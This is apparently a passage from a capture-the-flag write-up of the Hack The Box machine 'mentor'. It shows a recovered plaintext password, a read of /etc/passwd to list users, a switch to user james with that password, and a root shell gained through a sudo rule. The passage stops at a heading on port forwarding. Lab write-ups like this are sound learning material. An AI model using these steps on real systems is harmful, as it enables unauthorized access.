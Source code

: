 We found another password: `SuperSecurePassword123__`

### User Enumeration

```bash
cat /etc/passwd | grep sh
```

```bash
root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
svc:x:1001:1001:,,,:/home/svc:/bin/bash
james:x:1000:1000:,,,:/home/james:/bin/bash
fwupd-refresh:x:115:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

### Privilege Escalation to James

Let's try the SNMP password for the james user:

```bash
su james
# Password: SuperSecurePassword123__
```

### Sudo Privileges

```bash
sudo -l
```

```bash
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
```

### Root Access

Perfect! James can run `/bin/sh` as root:

```bash
sudo /bin/sh
```

![Root Shell](/images/mentor-htb/mentor-18.png)

![Root Flag](/images/mentor-htb/mentor-19.png)

## Additional Techniques

### Chisel for Port Forwarding
